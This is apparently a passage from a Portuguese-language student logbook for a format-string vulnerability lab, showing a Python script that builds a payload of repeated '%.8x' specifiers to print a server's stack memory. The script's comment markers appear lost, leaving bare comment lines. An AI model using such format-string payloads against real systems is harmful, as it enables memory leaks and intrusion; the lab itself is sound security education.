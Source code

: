 ![Figura 5](/Images/LOGBOOK6/Task1_image5.png)

*Figura 5: Print da consola do container*

### Task 2: Printing Out the Server Program’s Memory

#### Task 2.A: Stack Data

Para a realização desta tarefa, efetuámos algumas alterações no script build_string.py para criar um novo payload que permite imprimir os dados na stack.

```python
#!/usr/bin/python3
import sys

Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))

This line shows how to store a 4-byte integer at offset 0
number  = 0xdeadbeef
content[0:4]  =  (number).to_bytes(4,byteorder='little')

This line shows how to store a 4-byte string at offset 4
content[4:8]  =  ("abcd").encode('latin-1')

This line shows how to construct a string s with
64 of "%.8x", concatenated with a "%n"
s = "%.8x"*64

The line shows how to store the string s at offset 8
fmt  = (s).encode('latin-1')
content[8:8+len(fmt)] = fmt

Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)
```
